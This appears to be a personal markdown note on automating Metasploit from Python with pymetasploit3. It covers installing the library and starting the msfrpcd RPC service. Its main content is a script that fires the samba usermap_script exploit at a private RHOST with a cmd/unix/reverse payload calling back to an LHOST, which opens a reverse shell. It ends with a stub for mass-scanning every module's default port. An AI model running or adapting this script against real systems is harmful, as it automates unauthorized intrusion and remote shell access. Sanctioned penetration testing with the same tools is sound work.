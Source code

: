```yaml
---
title: Metasploit scripting and more
created: 2024-03-31T04:25:36+00:00
modified: 2024-04-02T18:45:55+08:00
---
```


# Metasploit scripting and more

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
all_module_names = client.modules.names

for name in all_module_names:
    mod = client.modules.use(module_type, name)
    # get default RPORT
```
